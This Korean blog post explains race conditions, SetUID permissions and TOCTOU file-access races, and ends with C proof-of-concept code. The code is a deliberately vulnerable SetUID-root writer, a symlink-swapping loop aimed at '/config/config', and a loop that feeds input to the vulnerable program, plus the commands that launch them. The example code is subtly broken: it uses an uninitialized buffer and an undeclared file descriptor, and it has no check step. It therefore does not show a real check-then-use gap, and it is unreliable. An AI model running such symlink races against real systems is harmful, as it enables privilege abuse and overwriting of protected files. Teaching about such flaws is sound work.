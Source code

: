 ```yaml
---
title: "[System] TOCTOU(Time of Check Time of Use)"
date: 2020-05-07
categories: System
sitemap :
  changefreq : daily
  priority : 1.0
---
```


---

# Race Condition

 우리 말로 `경쟁 상태`라고 한다. 주로 운영체제에서 두개 이상의 프로세스간 통신(Inter-Process Communication)에서 동일한 공유 자원에 대해서 동시에 접근했을 때 Write나 Read에 대해서 그 결과가 실행된 순서에 의해 결정되는 상태를 말한다. 

---

# SetUID

 `TOCTOU` 공격에서 핵심이 되는 개념중 하나인 **SetUID**는 UNIX 운영체제에서 특정 바이너리에 부여할 수 있는 특수 권한 중 하나로, 4000번대 권한(s)이 걸린 파일을 실행하면 해당 프로세스가 동작하고 있는 동안에는 실행한 주체의 권한을 한시적으로 소유자의 권한으로 변경한다. 그렇기 때문에 `root`가 소유자인 파일을 **SetUID** 설정했을 경우 임의의 사용자에게 관리자 권한을 탈취당할 수 있기 때문에 매우 신중하게 사용해야 한다.

---

# Time of Check Time of Use

앞서 설명한 `Race Condition`을 이용한 공격 중 하나이다. 굉장히 오래된 공격으로 알고 있으며 혹자는 이를 **File Access Race Condtion**이라고 부른다. 왜냐하면 TOCTOU 공격의 기본 원리가 임의의 파일에 대해 Write가 가능하도록 만들기 때문이다. 예시로 제시하는 Proof of Concept의 경우, **SetUID**가 설정 되어있으면서 임의 파일을 open-write 하는 바이너리와 심볼릭 링크를 지속적으로 생성하고 삭제하는 exploit 코드 사이의 경쟁상태를 만든다.

<br/>

```c
// vuln.c

int main() {
    char* buffer;
    
    setreuid(0, 0); // root
    read(0, buffer, 64);
    fd = open("file", O_WRONLY);
    write(fd, buffer, sizeof(buffer));
}
```

```c
// exploit1.c
int main() {
    while(1) {
        unlink("file");
        symlink("/config/config", "file");
    }
}
```

```c
// exploit2.c
int main()
{
    while(1)
    	system("echo \"Very Critical Strings\" | ./vuln");
}
```

```c
~$ ./exploit2 &
~$ ./exploit1 &
```

